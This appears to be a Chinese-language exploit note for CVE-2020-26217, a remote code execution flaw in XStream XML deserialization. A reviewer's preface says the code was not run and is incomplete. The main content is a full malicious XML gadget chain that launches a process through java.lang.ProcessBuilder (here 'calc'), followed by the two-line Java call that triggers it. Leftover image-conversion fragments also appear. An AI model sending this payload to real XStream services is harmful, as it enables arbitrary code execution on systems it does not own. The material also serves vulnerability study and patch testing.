

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：未列XStream/JDK范围；依Nashorn/JAXB/JAX-WS类存在和不安全反序列化配置

代码与实验材料：完整XML及fromXML两行，Windows calc，结果仅图

来源证据范围：直接官方CVE页面

- **适用与权限边界（1）**：缺影响和配置矩阵；依据：只用new XStream并fromXML，需说明安全类型白名单、JDK版本和真实不可信输入入口。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（2）**：最小Java示例非完整工程；依据：xml变量、依赖版本和imports未附，无法重复构建。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **证据待核（3）**：标题与图片转码残片；依据：标题含.md，图后重复media路径。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# (CVE-2020-26217)XStream XML反序列化远程代码执行.md

https://x-stream.github.io/CVE-2020-26217.html


```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

```
XStream xstream = new XStream();
xstream.fromXML(xml);
```

/media/image-20201117135642244.png)